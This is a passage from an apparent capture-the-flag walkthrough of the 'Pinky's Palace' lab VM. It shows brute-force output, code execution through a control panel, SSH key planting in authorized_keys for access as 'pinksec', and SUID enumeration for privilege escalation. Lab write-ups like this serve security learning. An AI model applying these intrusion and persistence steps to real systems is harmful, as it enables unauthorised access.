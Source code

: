 ```  
  
055850: C=302 0 L 0 W 0 Ch "55849"  
  
Total time: 299.6173  
Processed Requests: 100000  
Filtered Requests: 99999  
Requests/sec.: 333.7590  
```

We log in with these three and find a control panel which lets us execute code fully as the `pinksec` user.

![](https://image.ibb.co/eeBOfy/webpage3.png)

In this case I just generate an SSH key and write it into the authorized_keys file, allowing me to SSH straight in!

pinksec  
-------  
```bash  
root@kali:~/panther# ssh -p 5555 pinksec@192.168.0.74 -i id_rsa  
Linux pinkys-palace 4.9.0-6-686 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) i686  
  
The programs included with the Debian GNU/Linux system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.  
  
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
permitted by applicable law.  
pinksec@pinkys-palace:~$  
```  

Enumeration reveals some interesting SUID files.  We can run `pinksecd` which might allow us to elevate to `pinksecmanagement`.

```bash  
[-] SUID files:  
-rwsr-xr-x 1 root root 78340 May 17 2017 /usr/bin/gpasswd  
-rwsr-xr-x 1 root root 48560 May 17 2017 /usr/bin/chfn  
-rwsr-xr-x 1 root root 57972 May 17 2017 /usr/bin/passwd  
-rwsr-xr-x 1 root root 39632 May 17 2017 /usr/bin/chsh  
-rwsr-xr-x 1 root root 163988 Jun 5 2017 /usr/bin/sudo  
-rwsr-xr-x 1 root root 34920 May 17 2017 /usr/bin/newgrp  
-rwsrwx--- 1 pinky pinksecmanagement 7396 May 14 19:06 /usr/local/bin/PSMCCLI  
-rwsr-xr-- 1 root messagebus 46436 Mar 2 00:59 /usr/lib/dbus-1.0/dbus-daemon-launch-helper  
-rwsr-xr-x 1 root root 5480 Mar 27 2017 /usr/lib/eject/dmcrypt-get-device  
-rwsr-xr-x 1 root root 525932 Mar 1 07:17 /usr/lib/openssh/ssh-keysign  
-rwsr-xr-x 1 pinksecmanagement pinksecmanagement 7508 May 13 23:10 /home/pinksec/bin/pinksecd  
-rwsr-xr-x 1 root root 26504 Mar 7 10:29 /bin/umount  
-rwsr-xr-x 1 root root 39144 May 17 2017 /bin/su  
-rwsr-xr-x 1 root root 68076 Nov 9 2016 /bin/ping  
-rwsr-xr-x 1 root root 38940 Mar 7 10:29 /bin/mount  
```  
Running it with some standard inputs doesn't appear to yield much however.
```bash  
pinksec@pinkys-palace:/tmp$ /home/pinksec/bin/pinksecd  
[+] PinkSec Daemon [+]  
Options: -d: daemonize, -h: help  
Soon to be host of pinksec web application.  
pinksec@pinkys-palace:/tmp$ /home/pinksec/bin/pinksecd -h  
[+] PinkSec Daemon [+]  
Options: -d: daemonize, -h: help  
Flags Added: -h  
Soon to be host of pinksec web application.  
pinksec@pinkys-palace:/tmp$ /home/pinksec/bin/pinksecd -d  
[+] PinkSec Daemon [+]  
```